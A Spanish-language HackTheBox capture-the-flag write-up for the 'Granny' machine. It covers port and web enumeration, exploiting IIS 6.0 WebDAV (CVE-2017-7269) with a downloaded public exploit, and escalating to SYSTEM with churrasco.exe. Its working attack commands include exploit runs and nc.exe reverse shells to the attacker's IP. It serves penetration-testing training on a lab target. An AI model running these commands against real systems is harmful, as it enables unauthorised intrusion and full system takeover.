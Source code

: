 ```yaml
---
title: HTB - Granny
published: true
categories: [Windows]
tags: [eJPT, eWPT, OSCP, Fácil]
---
```



<img src="/assets/HTB/Granny/granny.png">

¡Hola!
Vamos a resolver de la máquina `Granny` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Microsoft IIS 6.0 - CVE-2017-7269**
- **Churrasco [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Granny`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.15
PING 10.10.10.15 (10.10.10.15) 56(84) bytes of data.
64 bytes from 10.10.10.15: icmp_seq=1 ttl=127 time=42.3 ms

--- 10.10.10.15 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p80 10.10.10.15 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Fri, 28 Oct 2022 15:07:39 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
whatweb 10.10.10.15

http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

### IIS Exploit

* * *

Observamos que la máquina víctima está corriendo bajo **Microsoft IIS 6.0**. Tras una búsqueda en Google encontramos que esta versión de IIS es vulnerable al exploit [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-7269) por lo que utilizaremos la herramienta del github de [g0rx](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) que nos va a generar una reverse shell directamente con la máquina víctima.

Descarga de exploit

```bash
cd ../exploits
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
mv iis6\ reverse\ shell iisExploit.py
```
Ejecutamos el exploit y nos indica el modo de uso

```bash
python iisExploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos el exploit

```bash
python iisExploit.py 10.10.10.15 80 10.10.14.94 443
```
Reverse Shell

```bash
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

### Escalada Privilegios

* * *

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar la enumeración de permisos y tareas con la finalidad de lograr escalar privilegios.

Enumeración privilegios de usuario

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Detectamos que tenemos el privilegio asignado `SeImpersonatePrivilege` gracias al cual podemos escalar privilegios con la variante de la herramienta `JuicyPotato.exe` denominada `churrasco.exe`, procedemos a su descarga en el directorio de trabajo `exploits` desde el GitHub de [Re4son](https://github.com/Re4son/Churrasco/)

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```
También nos descargamos en el directorio de trabajo la herramienta `nc.exe` del repositorio de GitHub de [int0x33](https://github.com/int0x33/nc.exe/)

Proecedemos a subir la herramienta `churrasco.exe` a la máquina víctima creando un recurso compartido a nivel de red con `impacket-smbserver`

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

En la máquina víctima ingresamos a la carpeta `C:\Windows\Temp`, creamos la carpeta `privesc` y copiamos el archivo `churrasco.exe`

```bash
cd c:\Windows\Temp
md privesc
cd privesc
copy \\10.10.14.94\smbFolder\churrasco.exe churrasco.exe
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos en la máquina víctima `churrasco.exe` para que ejecute con privilegios `nc.exe` y así establecer una reverse shell con privilegios de `nt authority\system`

```bash
churrasco.exe "\\10.10.14.94\smbFolder\nc.exe -e cmd 10.10.14.94 443"
```

Obtenemos una shell como `nt authority\system`

```bash
whoami
nt authority\system
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `type` nos muestra el contenido.

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\Lakis\Desktop\user.txt
```

```bash
#ROOT
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```

Hemos completado la máquina **Granny** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Granny/pwned.png">
